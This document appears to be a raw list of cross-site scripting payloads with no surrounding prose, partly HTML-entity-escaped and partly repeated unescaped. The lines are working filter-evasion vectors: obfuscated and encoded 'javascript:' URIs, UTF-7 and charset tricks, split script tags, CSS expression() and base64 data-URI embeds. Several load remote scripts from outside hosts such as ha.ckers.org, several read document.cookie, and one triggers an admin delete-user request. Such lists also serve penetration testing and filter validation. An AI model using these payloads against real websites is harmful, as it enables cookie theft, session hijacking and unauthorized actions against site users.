&lt;EMBED SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;swf\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
&lt;EMBED SRC=\"data&#58;image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==\" type=\"image/svg+xml\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);
&lt;HTML xmlns&#58;xss&gt;&lt;?import namespace=\"xss\" implementation=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;htc\"&gt;&lt;xss&#58;xss&gt;XSS&lt;/xss&#58;xss&gt;&lt;/HTML&gt;
&lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;!&#91;CDATA&#91;&lt;IMG SRC=\"javas&#93;&#93;&gt;&lt;!&#91;CDATA&#91;cript&#58;alert('XSS');\"&gt;&#93;&#93;&gt;
&lt;/C&gt;&lt;/X&gt;&lt;/xml&gt;&lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&gt;&lt;/SPAN&gt;
&lt;XML ID=\"xss\"&gt;&lt;I&gt;&lt;B&gt;&lt;IMG SRC=\"javas&lt;!-- --&gt;cript&#58;alert('XSS')\"&gt;&lt;/B&gt;&lt;/I&gt;&lt;/XML&gt;
&lt;SPAN DATASRC=\"#xss\" DATAFLD=\"B\" DATAFORMATAS=\"HTML\"&gt;&lt;/SPAN&gt;
&lt;XML SRC=\"xsstest&#46;xml\" ID=I&gt;&lt;/XML&gt;
&lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&gt;&lt;/SPAN&gt;
&lt;HTML&gt;&lt;BODY&gt;
&lt;?xml&#58;namespace prefix=\"t\" ns=\"urn&#58;schemas-microsoft-com&#58;time\"&gt;
&lt;?import namespace=\"t\" implementation=\"#default#time2\"&gt;
&lt;t&#58;set attributeName=\"innerHTML\" to=\"XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;\"&gt;
&lt;/BODY&gt;&lt;/HTML&gt;
&lt;SCRIPT SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;jpg\"&gt;&lt;/SCRIPT&gt;
&lt;!--#exec cmd=\"/bin/echo '&lt;SCR'\"--&gt;&lt;!--#exec cmd=\"/bin/echo 'IPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js&gt;&lt;/SCRIPT&gt;'\"--&gt;
&lt;? echo('&lt;SCR)';
echo('IPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;'); ?&gt;
&lt;IMG SRC=\"http&#58;//www&#46;thesiteyouareon&#46;com/somecommand&#46;php?somevariables=maliciouscode\"&gt;
Redirect 302 /a&#46;jpg http&#58;//victimsite&#46;com/admin&#46;asp&deleteuser
&lt;META HTTP-EQUIV=\"Set-Cookie\" Content=\"USERID=&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT&gt;\"&gt;
&lt;HEAD&gt;&lt;META HTTP-EQUIV=\"CONTENT-TYPE\" CONTENT=\"text/html; charset=UTF-7\"&gt; &lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
&lt;SCRIPT a=\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT =\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=\"&gt;\" '' SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT \"a='&gt;'\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=`&gt;` SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT&gt;document&#46;write(\"&lt;SCRI\");&lt;/SCRIPT&gt;PT SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;A HREF=\"http&#58;//66&#46;102&#46;7&#46;147/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//1113982867/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//0x42&#46;0x0000066&#46;0x7&#46;0x93/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//0102&#46;0146&#46;0007&#46;00000223/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"htt p&#58;//6 6&#46;000146&#46;0x7&#46;147/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"//www&#46;google&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"//google\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//ha&#46;ckers&#46;org@google\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//google&#58;ha&#46;ckers&#46;org\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//google&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//www&#46;google&#46;com&#46;/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"javascript&#058;document&#46;location='http&#58;//www&#46;google&#46;com/'\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//www&#46;gohttp&#58;//www&#46;google&#46;com/ogle&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&lt;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
&#X0003c;
&#X00003c;
&#X000003c;
&#x3C
&#x03C
&#x003C
&#x0003C
&#x00003C
&#x000003C
&#x3C;
&#x03C;
&#x003C;
&#x0003C;
&#x00003C;
&#x000003C;
&#X3C
&#X03C
&#X003C
&#X0003C
&#X00003C
&#X000003C
&#X3C;
&#X03C;
&#X003C;
&#X0003C;
&#X00003C;
&#X000003C;
\x3c
\x3C
\u003c
\u003C
&lt;iframe src=http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html&gt;
&lt;IMG SRC=\"javascript&#058;alert('XSS')\"
&lt;SCRIPT SRC=//ha&#46;ckers&#46;org/&#46;js&gt;
&lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js?&lt;B&gt;
&lt;&lt;SCRIPT&gt;alert(\"XSS\");//&lt;&lt;/SCRIPT&gt;
&lt;SCRIPT/SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;BODY onload!#$%&()*~+-_&#46;,&#58;;?@&#91;/|\&#93;^`=alert(\"XSS\")&gt;
&lt;SCRIPT/XSS SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;IMG SRC=\"   javascript&#058;alert('XSS');\"&gt;
perl -e 'print \"&lt;SCR\0IPT&gt;alert(\\"XSS\\")&lt;/SCR\0IPT&gt;\";' &gt; out
perl -e 'print \"&lt;IMG SRC=java\0script&#058;alert(\\"XSS\\")&gt;\";' &gt; out
&lt;IMG SRC=\"jav&#x0D;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=\"jav&#x0A;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=\"jav&#x09;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29&gt;
&lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;
&lt;IMG SRC=javascript&#058;alert('XSS')&gt;
&lt;IMG SRC=javascript&#058;alert(String&#46;fromCharCode(88,83,83))&gt;
&lt;IMG \"\"\"&gt;&lt;SCRIPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;\"&gt;
&lt;IMG SRC=`javascript&#058;alert(\"RSnake says, 'XSS'\")`&gt;
&lt;IMG SRC=javascript&#058;alert(&quot;XSS&quot;)&gt;
&lt;IMG SRC=JaVaScRiPt&#058;alert('XSS')&gt;
&lt;IMG SRC=javascript&#058;alert('XSS')&gt;
&lt;IMG SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js&gt;&lt;/SCRIPT&gt;
'';!--\"&lt;XSS&gt;=&{()}
';alert(String&#46;fromCharCode(88,83,83))//\';alert(String&#46;fromCharCode(88,83,83))//\";alert(String&#46;fromCharCode(88,83,83))//\\";alert(String&#46;fromCharCode(88,83,83))//--&gt;&lt;/SCRIPT&gt;\"&gt;'&gt;&lt;SCRIPT&gt;alert(String&#46;fromCharCode(88,83,83))&lt;/SCRIPT&gt;
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascrscriptipt:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
\";alert('XSS');//
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<XSS STYLE="xss:expression(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"></BODY></HTML>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<form id="test" /><button form="test" formaction="javascript:alert(123)">TESTHTML5FORMACTION
<form><button formaction="javascript:alert(123)">crosssitespt
<frameset onload=alert(123)>
<!--<img src="--><img src=x onerror=alert(123)//">
<style><img src="</style><img src=x onerror=alert(123)//">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="javascript:alert(1)">
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<script>({0:#0=alert/#0#/#0#(123)})</script>
<script>ReferenceError.prototype.__defineGetter__('name', function(){alert(123)}),x</script>
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
<script src="#">{alert(1)}</script>;1
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
<svg xmlns="#"><script>alert(1)</script></svg>
<svg onload="javascript:alert(123)" xmlns="#"></svg>
<iframe xmlns="#" src="javascript:alert(1)"></iframe>
+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
+ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
%253cscript%253ealert(document.cookie)%253c/script%253e
“><s”%2b”cript>alert(document.cookie)</script>
“><ScRiPt>alert(document.cookie)</script>
“><<script>alert(document.cookie);//<</script>
foo<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E
‘; alert(document.cookie); var foo=’
foo\’; alert(document.cookie);//’;
</script><script >alert(document.cookie)</script>
<img src=asdf onerror=alert(document.cookie)>
<BODY ONLOAD=alert(’XSS’)>
<script>alert(1)</script>
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
